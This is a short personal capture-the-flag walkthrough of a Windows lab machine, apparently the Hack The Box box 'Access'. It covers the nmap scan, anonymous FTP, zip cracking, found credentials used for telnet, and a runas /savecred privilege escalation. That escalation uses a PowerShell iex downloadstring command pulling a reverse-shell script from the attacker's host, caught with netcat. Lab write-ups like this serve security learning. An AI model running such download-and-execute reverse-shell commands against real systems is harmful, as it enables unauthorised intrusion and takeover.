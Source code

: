 # Recon
Windows
Powershell

## Scan
```
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  syn-ack ttl 127 Microsoft Windows XP telnetd (no more connections allowed)
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
```

### 21 Microsoft ftpd
anonymous logins allowed
I stole a file called **Access Control.zip** but it's password protected with AES.
Dumped the hash for cracking `zip2john ac.zip > ac.hash` Coulnd't crack it.

### 23 telnet - encryption not supported


# Walkthrough
The DB found on FTP contained the password for the zip file, which was `access4u@security`
The email (**pst file**) contains credentials
`security`
`4Cc3ssC0ntr0ller`

## Use those credentials to telnet.
```
$ telnet -l security 10.10.10.98
```
We're in
![[0fab72d6b64341ed9bc4f90dddfbb2cf.png]]
user: `ff1f3b48913b213a31ff6756d2553d38`

## Privesc
Using **nishang** repo on github and this guide: https://0xdf.gitlab.io/2019/03/02/htb-access.html

### Webserver hosting Invoke-PowerShellTcp.ps1
![[b5552850860b421ca9d0079bd64a5f19.png]]
`runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.4:80/shell.ps1')"`
![[c8e353d85b784af0aa53dfdd10974873.png]]
nc catches reverse shell
![[adb429e488e44fd99c7f654a1dc692f8.png]]

root: `6e1586cc7ab230a8d297e8f933d904cf`